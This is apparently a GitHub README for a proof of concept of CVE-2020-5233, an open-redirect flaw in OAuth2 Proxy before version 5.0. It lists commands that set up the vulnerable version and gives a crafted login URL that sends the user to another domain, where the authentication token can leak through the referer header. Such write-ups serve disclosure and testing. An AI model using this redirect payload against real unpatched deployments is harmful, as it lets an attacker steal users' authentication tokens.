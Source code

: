 # CVE-2020-5233

OAuth2 Proxy before 5.0 has an open redirect vulnerability. Authentication tokens could be silently harvested by an attacker. This has been patched in version 5.0.

# PoC

Replace `CLIENT_ID` and `CLIENT_SECRET` in docker-compose.yml with your project's.

```bash
wget https://github.com/pusher/oauth2_proxy/releases/download/v4.1.0/oauth2_proxy-v4.1.0.linux-amd64.go1.13.5.tar.gz
tar xvfz oauth2_proxy-v4.1.0.linux-amd64.go1.13.5.tar.gz
mv oauth2_proxy-v4.1.0.linux-amd64.go1.13.5/oauth2_proxy .

docker-compose up
```

Access to `https://app.example.com/oauth2/start?rd=/\your-domain.com` and logged in.  
Depending on your browser, a `referer` containing the token remains at `your-domain.com` .

# References

- https://github.com/pusher/oauth2_proxy/security/advisories/GHSA-qqxw-m5fj-f7gv
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-5233

